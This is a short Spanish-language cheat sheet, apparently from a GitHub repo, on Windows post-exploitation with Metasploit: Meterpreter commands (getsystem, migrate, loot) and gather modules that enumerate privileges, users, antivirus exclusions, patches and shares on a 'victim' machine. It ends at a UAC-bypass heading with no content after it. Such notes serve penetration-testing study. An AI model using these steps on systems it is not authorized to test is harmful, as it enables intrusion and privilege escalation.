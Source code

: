 ## Windows Modulos de post explotación

**IMPORTANTE**: Para poder utilizar estos modulos, es necesario tener una sesión establecida en la máquina victima.

```bash
meterpreter> getsystem
meterpreter> getuid
meterpreter> show_mount
meterpreter> migrate <PID>
CTRL + Z
msf6 > search win_privs
msf6 > use post/windows/gather/win_privs
msf6 post (windows/gather/win_privs) >
msf6 > search enum_logged_on_users
msf6 > use post/windows/gather/enum_logged_on_users
msf6 > set session 1
msf6 > loot
```

#### post/windows/gather/win_privs

Este modulo nos permite conocer los privilegios del usuario.

#### post/windows/gather/enum_logged_on_users

Nos permite conocer los usuarios que inician sesión con frecuencia en el sistema.

#### post/windows/gather/checkvm

Nos permite conocer si el sistema operativo esta corriendo dentro de una máquina virtual.

#### post/windows/gather/enum_applications

Enumera las aplicaciones instaladas en la máquina victima

#### post/windows/gather/enum_av_excluded

Permite detectar carpetas que son excluidas del escaneo realizado por el antivirus.

#### post/windows/gather/enum_computers

Comprueba si el host es parte de un dominio.

#### post/windows/gather/enum_patches

Lista los parches aplicados

#### post/windows/gather/enum_shares

Lista los recursos compartidos

---

### Escalación de Privilegios en Windows - Bypassing UAC
